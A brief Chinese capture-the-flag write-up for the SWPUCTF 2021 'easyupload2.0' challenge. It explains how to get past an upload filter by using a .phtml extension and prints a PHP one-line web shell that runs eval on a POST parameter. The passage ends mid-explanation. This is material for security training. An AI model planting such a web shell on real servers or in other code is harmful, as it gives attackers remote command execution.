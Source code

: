 ![2-3.png](2-3.png)

## [SWPUCTF 2021 新生赛]easyupload2.0

### 题解

跟上一题类似, 不过传 phtml 就行了:

```php
<script language="php">
    <?=@eval($_POST['shell']);?>
</script>
```

上传成功不过不能执行, 可能是因为 php 版本 >= 7.0 (这种写法在 7.0 后被移除), 直接只传中间这一句就行了:
